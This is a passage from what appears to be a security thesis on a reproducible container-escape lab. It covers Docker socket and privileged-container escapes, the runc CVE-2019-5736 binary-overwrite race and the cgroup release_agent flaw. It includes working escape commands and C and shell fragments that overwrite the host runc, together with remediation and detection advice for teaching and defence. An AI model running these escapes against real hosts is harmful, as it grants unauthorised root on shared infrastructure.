
The root-cause analysis is the methodologically load-bearing component, because it is the point at which a reproduction is connected to the mechanism it is claimed to demonstrate, and it is therefore the component against which the validity criterion of Section 4.6 is applied.

 <div class="page_break"></div>

## Laboratory Architecture
 
Reproducibility, rather than architectural sophistication, is the design objective of the laboratory. Accordingly the environment is expressed entirely as code: a single base virtual machine template, provisioned by script, from which the specific targets required by each exercise are derived as snapshots. This section describes that architecture and the scope boundaries deliberately imposed on it.

### Base Template and Network Isolation
 
The laboratory consists of one Ubuntu LTS virtual machine template, built by a provisioning script (a Vagrantfile with a plain-bash script) [@vagrant-docs] that installs the operating system packages, Docker, and supporting tooling without manual intervention. The template runs on a host-only network with no bridge to the internet or to any local-area network segment, consistent with the isolation requirement stated in Section 4.5. A single command rebuilds the template from the repository, which is the property that makes the laboratory reproducible rather than a one-off configuration.

### Snapshot Strategy
 
Three snapshots are taken from the base template, rather than one snapshot per exercise, which keeps the laboratory simple while remaining sufficient for all the vulnerabilities studied in Chapters 5 to 9:
 
- **Clean baseline**an unmodified snapshot of the base template, used as the roll-back point between exercise runs.
- **Runtime target**the base template with a specific, version-pinned Docker and `runc` installation. This snapshot serves the misconfiguration exercises and the two `runc`-level CVEs (CVE-2019-5736, CVE-2024-21626), since the property under study in each case is a userspace runtime defect or misconfiguration rather than a kernel defect.
- **Kernel target**the base template with a specific, version-pinned vulnerable kernel package installed and booted. This snapshot serves the cgroup-`release_agent` exercise (CVE-2022-0492) and the capstone (CVE-2026-31431), since a container cannot substitute the host kernel it shares, and the vulnerable kernel version must therefore be a property of the virtual machine itself rather than of an individual container.
Version pinning is recorded in each exercise's metadata and is the detail that makes the vulnerable state of the laboratory reproducible: without a pinned Docker, `runc`, or kernel version, a rebuilt environment would not reliably reproduce the defect under study.
 <div class="page_break"></div>
### Repository Layout
 
The laboratory is maintained as a single Git repository, included as an appendix to this thesis, structured as follows:
 
```
container-escape-lab/
|-- Vagrantfile              # or provision.shbuilds the base VM
|-- README.md                # one-command bring-up and reset instructions
|-- exercises/
    |-- 01-docker-socket/
    |-- 02-privileged/
    |-- 03-runc-cve-2019-5736/
    |-- 04-cgroups-cve-2022-0492/
    |-- 05-capstone-cve-2026-31431/
```
 
Each exercise directory is self-contained and holds the Dockerfile or compose file defining the vulnerable target, a `setup` script that provisions it, a `teardown` script that returns the environment to the clean baseline, and a short README recording the pinned software versions the exercise depends on. This layout allows an exercise to be reproduced, or reset, independently of the others.

### Scope Boundaries
 
The following are explicitly excluded from the laboratory, to keep its construction proportionate to a one-month milestone: container orchestration platforms such as Kubernetes, since the object of study is the container boundary itself rather than cluster-level security; a separate attacker-controlled virtual machine, since every exercise is exploited from within the confined container and requires no external attack platform; cloud infrastructure or infrastructure-as-code tooling beyond the provisioning script described above; and custom-written vulnerable software, in favour of pinned upstream versions and reused public proofs of concept. Any laboratory decision that does not serve either reproducing a vulnerable target or resetting the environment to a known state is treated as out of scope.


# Exercise I: Docker Socket Escape

**Class:** Misconfiguration · **CVE:** nonean operator misconfiguration rather than a software defect · **Difficulty:** introductory

## Objective

Given a container in which the host's Docker socket has been bind-mounted, obtain a root shell on the host and retrieve a marker file located at `/root/flag.txt`.

## Threat Scenario and Environment Setup

Bind-mounting `/var/run/docker.sock` into a container is a common, and consequential, operational shortcutobserved in continuous-integration runners, monitoring agents, and "Docker-in-Docker" configurations [@wiz-container-escape]. The vulnerable target is provisioned as follows.

``` bash
echo "FLAG{socket_equals_host_root}" | sudo tee /root/flag.txt
docker run -it --rm \
  -v /var/run/docker.sock:/var/run/docker.sock \
  alpine sh
```

## Exploitation Walkthrough

The Docker socket exposes the daemon's API. Because the daemon executes with root privilege on the host, any process able to reach the socket can instruct it to create a new container with an arbitrary host bind-mountincluding the host root filesystemwhich is functionally equivalent to obtaining root access on the host.

``` bash
# Confirm the socket is reachable from inside the container
ls -la /var/run/docker.sock

# Install a client and instruct the daemon to start a new container
# that mounts the host root filesystem, then chroot into it
apk add --no-cache docker-cli
docker run -v /:/host --rm -it alpine chroot /host sh

# The resulting shell executes with root privilege on the host
cat /root/flag.txt        # FLAG{socket_equals_host_root}
```
<div class="page_break"></div>

## Root Cause Analysis

No isolation layer described in Chapter 2 is defeated in this exercise; rather, root-equivalent access is granted deliberately, if unintentionally, by configuration. The Docker socket is the daemon's control-plane API, and the daemon runs as root; consequently, socket access is, by construction, equivalent to unrestricted control over the host. This exercise illustrates in its purest form the principle established in Section 2.11: the majority of container escapes observed in production are configuration errors rather than software vulnerabilities.

## Remediation

* Do not bind-mount `/var/run/docker.sock` into application containers; this single change addresses the majority of occurrences of this exposure in practice.
* Where a container must legitimately interact with the Docker API, interpose a socket proxy (for example, `tecnativa/docker-socket-proxy` [@docker-socket-proxy]) that allowlists specific endpoints and denies container creation requests specifying host bind-mounts.
* Operate the Docker daemon in rootless mode [@docker-rootless], so that a successful compromise of the socket yields an unprivileged host account rather than root, consistent with the user-namespace principle of Section 2.10.
* Where feasible, prefer tooling without a centralised root daemon by design, such as rootless Podman [@podman-rootless].

## Detection Guidance

* Alert on any container specification that bind-mounts `docker.sock`.
* Monitor the daemon for container-create calls specifying sensitive host mount points (`/`, `/host`, `/etc`, and similar).
* Apply runtime policy instrumentation (for example, Falco [@falco-rules]) to flag a `chroot` invocation against a freshly mounted host filesystem.

# Exercise II: Privileged Container Escape

**Class:** Misconfiguration · **CVE:** nonean operator misconfiguration rather than a software defect · **Difficulty:** introductory

## Objective

Given a container launched with the `--privileged` flag, obtain a root shell on the hostrather than merely within the containerand retrieve a marker file located at `/root/flag.txt` on the host filesystem.

## Threat Scenario and Environment Setup

The `--privileged` flag is frequently applied as an expedientto permit a container to manage hardware, access devices, or run a nested container runtimewithout full appreciation of its scope. As established in Section 2.11, the flag does not relax a single control but several concurrently: it restores the full capability set, disables the default seccomp profile, runs the Linux Security Module profile unconfined, and removes the device-cgroup restriction that would otherwise conceal the host's block devices [@docker-run-reference]. The vulnerable target is provisioned as follows.

```bash
echo "FLAG{privileged_equals_host_devices}" | sudo tee /root/flag.txt

docker run --privileged -it --rm ubuntu:22.04 bash
```

This exercise is the second of the misconfiguration category and is included as a deliberate counterpart to Exercise I. Where the exposed Docker socket of Exercise I grants host authority by *delegation*the confined process issues instructions to a root-privileged daemon that performs the privileged action on its behalfthe present exercise grants it by *direct device access*, in which the confined process itself mounts the host filesystem. The two share a taxonomy cell (Section 3.2) yet exploit distinct mechanisms, which demonstrates that the misconfiguration category is not a single technique but a family of them.

 <div class="page_break"></div>

## Exploitation Walkthrough

Within the privileged container, the host's block devices are visible because the device-cgroup restriction has been removed. The host's root partition is first identified; its device name depends on the virtual machine's disk backend, typically `/dev/sda*` for a SATA/AHCI backend or `/dev/vda*` for a virtio backend.

```bash
# Identify the host's root partition
lsblk

# Mount the host root filesystem and enter it. CAP_SYS_ADMIN authorises the
# mount, and the default seccomp profile that would otherwise deny the mount
# syscall is not applied.
mkdir -p /mnt/host
mount /dev/sda1 /mnt/host        # substitute the device identified above
chroot /mnt/host

# The process now operates within the host filesystem
cat /root/flag.txt               # FLAG{privileged_equals_host_devices}
```

## Root Cause Analysis

No isolation layer is exploited in the sense of a defect being triggered; rather, several layers are disabled by configuration, and the escape follows from their combined absence. Four concurrent effects of the `--privileged` flag are jointly responsible, corresponding to the comparison in Table 2.2. The restoration of the capability set returns `CAP_SYS_ADMIN`, which authorises the `mount` operation. The disabling of the default seccomp profile permits the `mount` syscall, which that profile would otherwise deny. The removal of the device-cgroup restriction makes the host's block devices reachable within the container. The unconfining of the LSM profile removes the mandatory-access-control constraint that would otherwise restrict the mount and the subsequent file access. With the mount operation simultaneously permitted, authorised, and unconstrained, and with the host disk reachable, the container mounts the host filesystem directly and reads it.

This exercise is the clearest instance of the misconfiguration category defined in Section 3.2: a fully patched, up-to-date host remains vulnerable, because there is no software defect to remediate. The exposure is the configuration itself, and it illustrates the argument of Section 2.11 that `--privileged` renders a container's root effectively equivalent to the host's root.
 <div class="page_break"></div>

## Remediation

- Avoid the `--privileged` flag; it rarely represents the minimal privilege a workload requires.
- Where a container requires access to a specific device or capability, grant it narrowlyusing a device passthrough for the specific device, and adding only the specific capability required while dropping the remainderso that a blanket grant is replaced by an auditable, least-privilege one.
- Retain the default seccomp and LSM profiles; narrow capability grants should not be combined with an unconfined seccomp or AppArmor profile, which would reintroduce the exposure incrementally.
- Enable user-namespace remapping (rootless operation), which, consistent with Section 2.10, does not prevent the technique but reduces its outcome to that of an unprivileged host account rather than host root.
- Enforce rejection of privileged containers at admission through a runtime policy engine, so that the misconfiguration cannot reach a production environment.

## Detection Guidance

- Alert on any container created with the `--privileged` flag, or with an equivalent unconfined seccomp or AppArmor security option.
- Monitor for a `mount` syscall originating from within a container, and for a container opening a host block device (`/dev/sd*`, `/dev/vd*`).
- Apply runtime policy instrumentation (for example, Falco [@falco-rules]), whose built-in rules for privileged-container launch and for sensitive mount operations cover this technique directly.

# Exercise III: CVE-2019-5736 (`runc` `/proc/self/exe` Overwrite)

**Class:** Runtime-level defect · **CVE:** CVE-2019-5736 · **Difficulty:** intermediate

## Objective

From an ordinary, unprivileged container running on a vulnerable runtime, obtain
code execution on the host and retrieve a marker file located at `/root/flag.txt`
on the host filesystem.

## Threat Scenario and Environment Setup

This is the first of the two runtime-level case studies, and it marks the
transition from the misconfiguration category to the defect-based categories of
the taxonomy (Section 3.2). In contrast to Exercises I and II, the container in
this exercise is not misconfigured in any way: it is unprivileged, holds no
additional capabilities, and mounts no host paths. The defect under study is in
the container runtime`runc`rather than in the configuration supplied to it.

The exercise assumes the precondition stated in the threat model (Section 1.5):
the attacker already holds code execution inside the container. It assumes,
additionally, that an administrator will at some point enter the container, which
is the condition the technique requires; the laboratory simulates this
administrator. The vulnerable target is provisioned against a pinned vulnerable
runtime`runc` at or below version 1.0-rc6, equivalently Docker at or below
18.09.1installed as part of the runtime-target snapshot (Section 4.4.2).

```bash
echo "FLAG{runc_overwrite_via_proc_self_exe}" | sudo tee /root/flag.txt

# An ORDINARY, unprivileged container on the vulnerable runtime:
docker run -d --name ex03-foothold ubuntu:18.04 sleep infinity
```
 <div class="page_break"></div>


## Attack Surface and Root Cause

`runc` is the low-level runtime that creates and enters containers on behalf of
Docker. When an administrator enters a running containerfor example through
`docker exec``runc` executes and joins the container's namespaces in order to
start the requested process. At that moment the host's `runc` binary is running
in a context the container's occupant can influence.

The root cause of CVE-2019-5736 [@cve-2019-5736] is that, in the vulnerable versions, this
executing runtime could be referred to from inside the container through the
kernel-provided `/proc/self/exe` link, which resolves to the on-disk host `runc`
binary. Because that binary is owned by the host and executed as root, an
attacker-controlled process within the container that obtains a writable
reference to it at the correct moment can cause the host binary to be replaced
with attacker-controlled content. The host then executes that content, as root,
on the next invocation of the runtime. The escape therefore does not defeat any
namespace directly; it defeats the **integrity of the runtime**, and through that
integrity failure it obtains execution in the host's contextwhich is why the
taxonomy (Section 3.4) records the layer defeated as runtime integrity, and
thereby the mount namespace.

## Exploitation Walkthrough

The technique proceeds in four movements. First, a booby-trapped executable is
placed inside the container so that a routine administrative entry causes the
host runtime to re-execute in a form that is addressable from within the
container. Second, the confined attacker obtains a read-only descriptor to that
running host binary. Third, the attacker wins a short race to reopen the same
binary for writing at the instant it ceases to execute, and overwrites it with a
payload. Fourth, the next ordinary invocation of the runtime executes that
payload as root on the host. The laboratory artefacts in
`exercises/03-runc-cve-2019-5736/shared` implement precisely this sequence; the
account below is organised around them and follows the mechanism documented by
Unit 42 [@avrahami2019runc].

 <div class="page_break"></div>

### The runtime makes itself addressable through `/proc/self/exe`.

When anadministrator enters a running container with `docker exec`, the daemon invokes
the host `runc` binary, which forks a short-lived *init* child. That child joins
the container's namespaces with `setns`including its PID namespace, so that
the child is visible in the container's own process tableand then re-executes
itself by way of `/proc/self/exe` before handing control to the requested
program with `execve`. Consequently, for a brief interval a process is executing
*inside the container's mount namespace* whose own on-disk executable image is
nonetheless the host's `runc`. The kernel exposes that image through the magic
symbolic link `/proc/<pid>/exe`, andcriticallythat link does not obey
ordinary path-resolution semantics: opening it does not re-traverse the
filesystem the container controls, but hands the caller the kernel's open-file
entry for the underlying host inode directly. The container's authority over its
own mount namespace therefore cannot redirect the reference; it resolves to the
host binary regardless.

<figure>
  
<figcaption><span class="lbl">Figure.7.1</span><em>[@avrahami2019runc]</em> Procfs and the<code>/proc/self/exe</code> magic link, and an overview of how the host
<code>runc</code> becomes reachable from within the container.</figcaption>
</figure>

<div class="page_break"></div>

### Arming the trap: the `#!/proc/self/exe` shebang.
For the host runtime to re-execute in the container's context, the attacker must cause it to run a file
of their choosing. The laboratory image prepares this by relocating the real
shell and installing a decoy in its place (`Dockerfile`):

```dockerfile
RUN ["mv", "/bin/bash", "/bin/bash_original"]
COPY /shared/bash_fake /bin/bash
```

The decoy `/bin/bash` (`bash_fake`) contains a single linea shebang naming an
interpreter but no script logic of its own:

```
#!/proc/self/exe
```

In a genuine intrusion the attacker, who by the threat model (Section 1.5)
already holds code execution inside the container, plants this file themselves;
the image bakes it in only so that the exercise is self-contained. When the
(simulated) administrator runs `docker exec -it ex03-foothold bash`, `runc`'s
init child ultimately calls `execve("/bin/bash", …)`. The kernel's script
handler reads the shebang and, finding `/proc/self/exe` named as the
interpreter, executes *that* insteadthe host `runc`with the decoy's path
supplied as its argument. A process thus comes into being, within the container,
whose executable image is the host runtime and which is addressable from inside
the container as `/proc/<pid>/exe`.

<figure>

<figcaption><span class="lbl">Figure.7.2</span><em>[@avrahami2019runc]</em> Execution flow of the
<code>#!/proc/self/exe</code> shebang: the loader runs the host runtime in place
of the requested program.</figcaption>
</figure>
 <div class="page_break"></div>

### Catching the runtime: a read-only descriptor and `ETXTBSY`
A second attacker-controlled processrunning under the relocated real shell, its own
shebang being `#!/bin/bash_original`watches for the runtime to appear and then
acts. The controller `replace.sh` busy-waits for the tell-tale process, which is
identifiable because its command line is literally `/proc/self/exe`, captures its
process identifier, and passes the corresponding `/proc/<pid>/exe` to the
overwrite tool:

```bash
runc_pid=$(ps axf | grep /proc/self/exe | grep -v grep | awk '{print $1}')
while [ -z "$runc_pid" ]; do
    runc_pid=$(ps axf | grep /proc/self/exe | grep -v grep | awk '{print $1}')
done
/shared/overwrite_runc /proc/${runc_pid}/exe /shared/new_runc
```

The tool (`overwrite_runc.c`) first opens the target read-only:

```c
runc_fd_read = open("/proc/<pid>/exe", O_RDONLY);   /* succeeds */
```

Opening a running executable image for *reading* is permitted, and the call
returns a descriptor referring to the host `runc` inode. A direct attempt to
reopen the same inode for writing, however, is refused: while the binary is
mapped and executing, the kernel returns `ETXTBSY` ("text file busy"), the
mechanism by which it protects a live executable from modification.

 <div class="page_break"></div>

### Winning the race through `/proc/self/fd`.
The descriptor already held provides a second, path-independent route to the very same inode, namely
`/proc/self/fd/<fd>`. The tool polls that path for write access in a tight loop:

```c
sprintf(my_runc_fd_path, "/proc/self/fd/%d", runc_fd_read);
for (;;) {
    my_runc_fd = open(my_runc_fd_path, O_WRONLY | O_TRUNC);  /* ETXTBSY … until it isn't */
    if (my_runc_fd != -1) { /* payload over the host binary */
        write(my_runc_fd, new_runc.buff, new_runc.len); 
        break;
    }
}
```

While the runtime process remains alive the call continues to fail with
`ETXTBSY`; the moment that process exitswhich it does shortly after, having
been re-executed with an argument it does not recognise as a valid runtime
commandthe image is no longer busy and the identical call succeeds. Because
`procfs` is generated on demand, the transition requires no rescan or cache
flush on the attacker's part: the same `open` flips from failure to success as a
direct consequence of the runtime's exit. The tool then truncates the host
binary and writes the payload over it. The repository additionally ships
`03-exploit.py`, an annotated Python twin of this logic that isolates the five
facts the race depends upon: a file descriptor is merely an index into the
process's open-file table; `/proc/<pid>/exe` names the on-disk image; a running
image is busy; `/proc/self/fd/<n>` reaches the same inode through a descriptor
already held; and `procfs` is live.

Unit 42 [@avrahami2019runc] also documents a more robust variant that avoids the exit race
altogether, injecting the payload through a shared library that `runc` loads (for
example `libseccomp`) by means of a GCC constructor, so that attacker code runs
during dynamic linkingbefore `execve` completes and while the descriptor can
still be taken. The laboratory uses the simpler binary-overwrite race in the
interest of legibility.

 <div class="page_break"></div>

### Collecting the result: root on the host
The payload is simply the file that now stands in for `runc`. In the laboratory it is compiled from `new_runc.c`, which opens `/root/flag.txt` and copies it to standard output (an alternative,
`new_runc.sh`, renders the same content through `figlet`). Because the Docker
daemon always invokes `runc` as root, the next container operation of any kind
runs the payload with host-root authority. The escape is confirmed by an
ordinary `docker run`: the substituted runtime executes on the host, reads the
marker fileowned by `root` with mode `600`, and therefore unreadable by any
unprivileged process inside the containerand prints its contents.

<figure>

<figcaption><span class="lbl">Figure.7.3</span>Confirmation of host code execution. On the left, an ordinary
<code>docker run</code> triggers the overwritten runtime, which executes as root
on the host and prints the protected marker
<code>FLAG{runc_overwrite_via_proc_self_exe}, You Won!</code>. On the right, and
independently, <code>ls -l /root/flag.txt</code> on the host confirms that the
file is owned by <code>root</code> with mode <code>600</code></figcaption>
</figure>

No namespace is broken at any point in this sequence: the mount namespace holds
throughout, and the container never acquires a capability it did not begin with.
What fails is the *integrity of the runtime binary*, and because that binary
executes as root on the host, its corruption is equivalent to host code
executionthe sense in which the taxonomy (Section 3.4) records the defeated
layer as runtime integrity, and thereby the mount namespace. A corollary noted
in the exercise's operational guidance follows directly: a successful run
overwrites the host `runc`, so the runtime cannot be trusted afterwards, and a
guaranteed-clean state requires restoring the baseline snapshot (Section 4.4.2)
rather than relying on a scripted teardown alone.
 <div class="page_break"></div>

## Remediation

- **Patch the runtime.** The vulnerability is fixed in `runc` version 1.0-rc7 and
  in Docker 18.09.2 [@cve-2019-5736; @oci-runc-advisories]. The upstream fix causes `runc` to operate on a temporary,
  read-only, memory-backed copy of itself when entering a container, so that the
  on-disk host binary can no longer be reached and overwritten through
  `/proc/self/exe`. On a current system the technique does not apply, and this is
  the primary and sufficient control.
- **Enable user-namespace remapping (rootless operation).** Consistent with
  Section 2.10, this reduces the severity of the technique rather than preventing
  it outright: because the runtime no longer executes as real host root, a
  successful overwrite yields unprivileged execution rather than host root [@docker-rootless]. The
  taxonomy (Section 3.4) accordingly records this technique as *partially*
  contained by a user namespace, in contrast to the misconfiguration cases.
- **Confine the runtime with a mandatory-access-control profile** (AppArmor or
  SELinux), and avoid entering untrusted containers, as defence in depth.

## Detection Guidance

- Apply file-integrity monitoring to the `runc` binary and alert on any write to
  it, since the technique's defining action is the modification of that binary.
- Alert on a container process obtaining a writable handle to the runtime binary
  by way of `/proc/self/exe`.
- Runtime policy instrumentation (for example, Falco [@falco-rules]) provides rules covering
  modification of the container runtime binary, which detect this class of technique directly.

# Exercise IV: CVE-2022-0492 (cgroup v1 `release_agent`)

## Objective
 
From an ordinary, unprivileged container running on a vulnerable kernel, obtain code execution on the host and retrieve a marker file located at `/root/flag.txt` on the host filesystem.

## Threat Scenario and Environment Setup

This exercise marks the transition from the runtime category of the taxonomy to the kernel category (Section 3.2). Neither the container's configuration nor the container runtime carries the defect under study: the runtime is current, and no property of the container's definition is itself a vulnerability. The defect is a logic flaw in the host kernel's cgroup v1 subsystem, and the container is merely the position from which it is reached.

The target is provisioned on the kernel-target snapshot (Section 4.4.2), which pins a kernel predating the fix, forces the cgroup v1 hierarchy, and enables unprivileged user namespaces. The container itself is defined by `exercises/04-cgroups-cve-2022-0492/docker-compose.yml`, and three properties of that definition require comment, because each is a deliberate choice rather than an oversight:

- **The default seccomp and AppArmor profiles are removed** (`seccomp=unconfined`, `apparmor:unconfined`). This is a common operational shortcut in continuous-integration and build environments, and it is the realistic precondition of the technique: the default seccomp profile denies `unshare(2)`, and the default AppArmor profile denies the `mount` operation, so a container running under either would be unable to reach the vulnerable code path at all. Section 8.7 treats the restoration of both profiles as available mitigations.
<div class="page_break"></div>
- **`CAP_SYS_ADMIN` is granted** (`cap_add: SYS_ADMIN`). This is not a requirement of the vulnerability — it is, on the contrary, the alternative to it. As Section 8.5 develops, the whole technique reduces to a single write that a container may be permitted to make in either of two ways: because it was *granted* the governing capability, which is a misconfiguration of the kind already examined in Exercise II; or because it *manufactured* the capability inside a user namespace of its own creation and the vulnerable kernel failed to notice the difference, which is CVE-2022-0492. The laboratory target is configured so that the same artefacts exercise both routes against the same host, making the distinction between them the object of study rather than an incidental detail of the setup.
- **A single bind mount is present** (`./shared` to `/shared`). It exists so that helper scripts can be moved between the VM and the container foothold without repeated `docker cp` invocations. It is an ordinary bind mount conferring no privilege the technique requires, and it is deliberately *unlike* Exercise I, in which the presence of a mount is itself the entire finding.
 
Understanding this vulnerability requires three mechanisms that have not yet been introduced in full: the architecture of control groups and their filesystem interface (Section 8.3.1), the kernel's usermode-helper facility (Section 8.3.2), and the namespace-relativity of privilege (Section 8.3.3). Each is developed below before the defect itself is analysed in Section 8.4. None of the three is a defect in isolation, and the vulnerability is a property of their composition rather than of any one of them; the figure below therefore maps them together before they are treated separately.

<figure>

<figcaption><span class="lbl">Figure.8.1</span>The three mechanisms of Sections 8.3.1 to 8.3.3 and the relations that
bind them. The user namespace supplies the authority under which a cgroup v1
hierarchy may be mounted and owned; a file in that hierarchy,
<code>release_agent</code>, names a binary; the usermode helper executes that
binary with full root privilege in the host's initial namespaces.</figcaption>
</figure>

Control groups were introduced in Section 2.4 as the mechanism governing
*resource consumption*, in contrast to the namespaces that govern *visibility*.
That characterisation is sufficient for the isolation model but insufficient to
understand the present vulnerability, which turns on the details of how control
groups are configured rather than on what they limit.

<div class="page_break"></div>

## Background

### Control Groups and the cgroup Filesystem Interface

 
**Hierarchies and controllers.** In cgroup version 1, the subsystem is organised
as a set of independent *hierarchies*, each a tree of cgroups to which one or
more *controllers* (`cpu`, `memory`, `pids`, `devices`, and others) are attached [@man7-linux].
A process belongs to exactly one cgroup in each hierarchy. Critically for what
follows, cgroup v1 permits the creation of additional, arbitrary hierarchies: a
hierarchy may be mounted with no controller attached at all, serving purely as an
organisational tree. Such a hierarchy is fully functional with respect to the
interface described below, despite governing no resource.
 
**The filesystem as the control plane.** Control groups expose no dedicated
system call. Their entire configuration interface is a pseudo-filesystem —
`cgroupfs` — in which each cgroup is a directory and each tunable is a file.
A cgroup is created by creating a directory; a process is moved into it by
writing that process's identifier into the cgroup's `cgroup.procs` file; a limit
is applied by writing a value into the corresponding controller file. Access
control over these operations is therefore, by construction, ordinary
*filesystem* access control: the kernel's protection of a cgroup tunable is the
permission bits and ownership of the file representing it. This design decision —
control by file I/O, protected by file permissions — is the structural precondition
of the vulnerability, and Section 8.4 returns to it.
 
**The `notify_on_release` and `release_agent` pair.** Among the files present in
a cgroup v1 hierarchy are two that implement a cleanup-notification facility.
Each cgroup carries a boolean `notify_on_release` flag, and each *hierarchy*
carries, at its root, a `release_agent` file containing a filesystem path. When
the last process leaves a cgroup whose `notify_on_release` flag is set — that is,
when the cgroup becomes empty — the kernel executes the binary named by that
hierarchy's `release_agent`, passing the path of the newly emptied cgroup as an
argument [@man7-linux].
 
The facility exists for legitimate housekeeping: it allows a userspace manager to
be informed that a cgroup is no longer in use and may be torn down, without
requiring that manager to poll the hierarchy. The security-relevant property is not the notification
itself but the *mechanism* by which it is delivered, which is the subject of the next section.

<div class="page_break"></div>

### Usermode Helpers and the Privilege of the Callback

When the kernel needs userspace to perform an action on its behalf, it uses the
*usermode helper* facility, `call_usermodehelper()` [@unit42-cve-2022-0492]. This facility forks a new
process from a kernel thread and executes a specified binary. Three properties of
that execution are decisive here:
 
- **It runs with full root privileges.** The helper is executed with the kernel's
  own credentials, not with those of any process that requested the action.
- **It runs in the initial namespaces.** Because the helper is forked from a
  kernel thread, it inherits the initial PID, mount, network, and user
  namespaces — that is, the *host's* namespaces, not those of any container.
- **Its path is resolved in the initial mount namespace.** The path stored in
  `release_agent` is interpreted against the host's root filesystem when the
  callback fires, not against the filesystem of whichever process wrote it.
A write to `release_agent` is therefore not a configuration change in the
ordinary sense. It is the scheduling of arbitrary code execution, as full root,
in the host's initial namespaces, at a time determined by the emptying of a
cgroup. The severity of the operation is entirely disproportionate to its
appearance as a write to a small text file.
 
**The filesystem asymmetry.** One further consequence of path resolution in the
initial mount namespace deserves emphasis, because it is frequently
misunderstood. A container's root filesystem is not invisible to the host. Under
the overlay filesystem used by modern container runtimes, the writable layer of a
running container exists as an ordinary directory somewhere within the host's own
filesystem hierarchy. A file created by a process inside the container is thus
simultaneously present at two distinct paths: the path the container observes
within its mount namespace, and a different path at which the host observes the
same file. The container's view and the host's view of the same object are
related but not identical, and any mechanism that accepts a path from one context
and resolves it in the other inherits that asymmetry as an attack surface. The `release_agent` mechanism does precisely this.
<div class="page_break"></div>

### The Namespace-Relativity of Privilege

Section 2.5 introduced capabilities as the decomposition of root authority into
discrete units, and Section 2.10 introduced the user namespace as a mapping
between identities inside a namespace and identities on the host. The interaction
of the two is the final mechanism required here, and it is the point at which the
present vulnerability differs categorically from those of Exercises I to III.
 
A process that creates a new user namespace becomes, within that namespace, the
holder of a **full capability set** including `CAP_SYS_ADMIN`. This is by
design and is not itself a defect: the capabilities so obtained are meaningful
only with respect to objects *owned by* that namespace. An unprivileged user who
creates a user namespace may thereby administer their own namespace's resources,
while remaining unprivileged with respect to the host. The kernel maintains this
distinction internally through the difference between a capability check made
against the initial user namespace and one made against an arbitrary namespace.
 
The security of the entire user-namespace design rests on that distinction being
enforced consistently at every point where a capability governs an operation with
effects outside the namespace. Where it is enforced, the user namespace is a
containment mechanism. Where it is omitted, the user namespace becomes an
*amplifier*: it converts an unprivileged process into one holding `CAP_SYS_ADMIN`,
and any code path that accepts that capability without qualifying which namespace
it was granted in will treat the process as genuinely privileged. This is the
concrete form of the caveat raised in Section 2.10 — that user namespaces are an
attack surface as well as a defence — and it is the mechanism by which the present
defect is reached.
 
A second, related point concerns mounting. Since kernel version 4.6, `cgroupfs`
is among the filesystem types that may be mounted inside a user namespace by a
process holding `CAP_SYS_ADMIN` in that namespace. A process in a new user
namespace may therefore mount a fresh cgroup v1 hierarchy of its own — one it
owns, and over whose files it holds root ownership [@man7-linux].

<div class="page_break"></div>

## Root Cause Analysis

The three mechanisms above combine into the defect. In the vulnerable kernels,
the function servicing writes to the `release_agent` file performed **no
capability check whatsoever** [@cve-2022-0492; @unit42-cve-2022-0492]. Access control was delegated entirely to the
virtual filesystem layer: the file is owned by root with permissions permitting
only the owner to write it, and the kernel relied on that permission check alone
to restrict the operation to a privileged administrator.
 
That reliance is sound only where file ownership implies host privilege. It is
